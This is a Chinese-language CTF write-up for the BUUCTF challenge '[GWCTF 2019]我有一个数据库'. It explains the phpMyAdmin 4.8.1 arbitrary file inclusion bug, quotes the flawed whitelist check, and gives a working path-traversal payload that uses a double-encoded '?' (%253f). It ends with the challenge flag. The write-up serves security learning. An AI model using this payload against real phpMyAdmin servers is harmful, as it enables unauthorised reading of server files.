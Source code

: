 # [GWCTF 2019]我有一个数据库

[题目地址](https://buuoj.cn/challenges#[GWCTF%202019]%E6%88%91%E6%9C%89%E4%B8%80%E4%B8%AA%E6%95%B0%E6%8D%AE%E5%BA%93)

进入网站，只得到一堆乱码。dirmap扫一下，竟然发现个phpmyadmin。直接进去，我们就到数据库里面了。flag当然不在数据库里，怎么可能这么简单呢？此题的考点是phpmyadmin 4.8.1的一个任意文件包含漏洞。参考[这里](https://www.freebuf.com/articles/web/279489.html)和[这里](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)。

简述一下这个漏洞。index.php里有一句`include $_REQUEST['target'];`，不过target的值需要满足检查，出现漏洞的检查如下：

```php
public static function checkPageValidity(&$page, array $whitelist = [])
    {
        if (empty($whitelist)) {
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```

注意到`$_page = urldecode($page);`又对传入的page做了一次urldecode，而传入参数时已经默认解码一次了，代表这是第二次解码。如果我们在传入的文件名中二次url编码一个问号，就能绕过过滤，从而使用路径穿越。这个设计本来是想让参数也带有参数时还可以正确包含，比如`?target=xxx.php?xxx`这种。结果因为这个漏洞，加上php的include函数解析路径时如果有相对路径就会忽略前面的路径转而包含相对路径的文件这个特性，导致任意文件包含。构造payload。

- http://83878456-a710-4e71-9a95-44708cb1e6ea.node4.buuoj.cn:81/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../flag

## Flag
> flag{18e67a6e-d91c-4cb4-b332-cd16cdb6342a}
